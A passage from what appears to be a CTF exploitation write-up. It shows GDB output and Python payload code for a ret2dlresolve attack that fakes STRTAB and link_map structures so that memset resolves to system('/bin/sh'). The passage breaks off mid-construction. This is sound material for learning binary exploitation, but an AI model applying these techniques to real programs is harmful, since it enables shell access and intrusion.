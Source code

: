 Now we intent to create the fake STRTAB structure, but first, we need the `st_name` (in Elf64_Sym) of the function we are faking (the memset function because after scanf@plt is memset@plt):

```
gef➤  # x/3i memset@plt
gef➤  x/3i 0x400530
   0x400530 <memset@plt>:  jmp    QWORD PTR [rip+0x200aea]        # 0x601020 <memset@got.plt>
   0x400536 <memset@plt+6>:   push   0x1                          # reloc_arg
   0x40053b <memset@plt+11>:  jmp    0x400510                     # dlresolver

gef➤  # x/3xg <JMPREL> + <reloc_arg> * 24
gef➤  x/3xg 0x400498 + 1 * 24
0x4004b0:   0x0000000000601020   0x0000000200000007
0x4004c0:   0x0000000000000000

gef➤  # x/3xg <SYMTAB> + <symbol_number> * 24
gef➤  x/3xg 0x4002c0 + (0x0000000200000007 >> 32) * 24
0x4002f0:   0x0000001200000037   0x0000000000000000
0x400300:   0x0000000000000000
```

So the `st_name` value is 0x37. So when we write the address of STRTAB in to DT_STRTAB structure, we just simply subtract the address contains the string of function name with 0x37 and that's all.

So we will write the string of function we want to execute after the structure of DT_STRTAB, and at the origin STRTAB address, we replace with the address, which contain the string, subtract with 0x37. So our payload would look like this:

```
buf_addr = 0x601080                    # global variable address

DT_STRTAB_addr = buf_addr + 0x8
DT_STRTAB_struct = p64(0x5)
DT_STRTAB_struct += p64(buf_addr + 0x18 - 0x37)    # STRTAB_addr - st_name

STRTAB_addr = buf_addr + 0x18
STRTAB_struct = b'system\x00\x00'
```

We can see that after input to `buf` variable, it then memset@plt with `buf` again. And what we are doing is to fake memset() to system(), so we need the string `/bin/sh` in the `buf` at the begining so when it resolved, it will execute system("/bin/sh\x00").

So our `buf_data` will be as follows:

```
buf_data = b'/bin/sh\x00'
buf_data += DT_STRTAB_struct
buf_data += STRTAB_struct
```

And now we will construct the structure for `link_map`. We know the structure of link_map is as above so our fake link_map will be like this:

```
DT_SYMTAB = 0x600eb0

link_map_struct = p64(0)                   # l_addr
link_map_struct += p64(0)                  # l_name
link_map_struct += p64(0)                  # l_ld
link_map_struct += p64(0)                  # l_next
link_map_struct += p64(0)                  # l_prev
link_map_struct += p64(0)                  # l_real
link_map_struct += p64(0)                  # l_ns
link_map_struct += p64(0)                  # l_libname
link_map_struct += p64(0)                  # l_info[0]
link_map_struct += p64(0)                  # l_info[1]
link_map_struct += p64(0)                  # l_info[2]
link_map_struct += p64(0)                  # l_info[3]
```